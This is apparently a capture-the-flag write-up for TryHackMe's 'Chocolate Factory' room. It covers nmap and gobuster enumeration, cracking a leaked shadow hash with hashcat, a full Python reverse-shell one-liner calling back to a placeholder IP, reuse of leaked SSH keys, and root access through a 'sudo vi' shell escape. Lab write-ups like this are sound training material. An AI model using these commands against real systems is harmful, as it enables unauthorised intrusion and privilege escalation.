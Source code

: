 # [Chocolate Factory](https://tryhackme.com/room/chocolatefactory) 


---

```shell
export IP=10.10.185.246
```

Let's kick off with a few `nmap` scans to enumerate the box

```shell
nmap -sC -sV -v $IP -oN nmap/initial.txt
```
Reveals the following
```
Ports:
21 ftp
22 ssh
80 http
106 unique
110 unique
111 unique
113 unique
125 unique
```

During the nmap scan, I noticed that it took much to scan - because within each of the special ports, there was a hint about which file to get.

![hint](./assets/hint.png)

Thankfully as nmap did that for us, I was able to quickly find `http://localhost/key_rev_key` which points to a directory on the box.
Downloading the file and analysing it, it appears to be some sort of binary file we are meant to run... I decided that before I use Ghidra or equivilent I would run it through strings - and viola!

![First key](./assets/binary_key.png)

Some sort of key, throwing it into b64 and other base decodes doesn't reveal much so I postpone working on it.

Then I looked into the other ports, first ftp. It allowed anonymous login and there was a solitary `gum_room.png` file. Throwing it into a steg decode revealed that it was a large file encoded in base64. Decoding the base64 file revealed it to be a shadow file! With an exposed hash for a user `charlie`, which I immediately put into a hash-cracker

```shell
hashcat -m 1800 '$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/' ~/wordlists/passwords/rockyou.txt
```


---

Moving on to the main website, I first enumerate it with `gobuster`

```shell
gobuster dir -t 64 -u $IP -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .php,.txt,.html,.jpg,.png -o gobuster/dir_med.txt
```

Doing this I discover some interesting directories.
```
/home.php
/validate.php
```
Going into `home.php` revealed it to be a web-side command shell.

![home page](./assets/home.png)

I then use a python reverse shell to give myself better access to it
```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<<IP>>",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I check the php code for `validate.php` which contains the plaintext username and password for charlie

![validate](./assets/validate.png)

Using his credentials simply takes me back to `validate.php`.

Now that I have box access, I navigate and investigate charlie's home directory, which contains a user.txt (cannot view) but two files, teleport and teleport.pub; which are charlie's ssh public and private keys. Copying these over, I can now ssh into the box as charlie.

(Note that the hashcat cracker is still _pointlessly_ chugging away in the background)

As charlie, I am now able to grab the user flag and submit it. My new focus is on Priviledge Escalation.
I dutifully check charlie's sudo permissions even though I do not have his password.

![sudo](./assets/sudo.png)

We can sudo `/usr/bin/vi` without requiring a password - although with the caveat that we cannot run it as root - or is it?

```shell
sudo vi -c ':!/bin/bash -i' /dev/null
```

And we now have root access!

Going into `/root` though reveals that we are not quite done yet. There's a python script which will reveal our final flag!

![python script](./assets/root_script.png)

The script is using a Fermet Cipher, which requires a cipher and its key to decode. The cipher is hardcoded into the script and we had found the key in an earlier question.

Time to run the script and get our key...?

![import error](./assets/import_error.png)

Nope, the decoding library _is not even loaded_ onto the box and instead of trying to upload it to the box using http or scp, I throw in into an online decoder.

![decoded flag](./assets/decoded_flag.png)

And this room is _**complete!**_

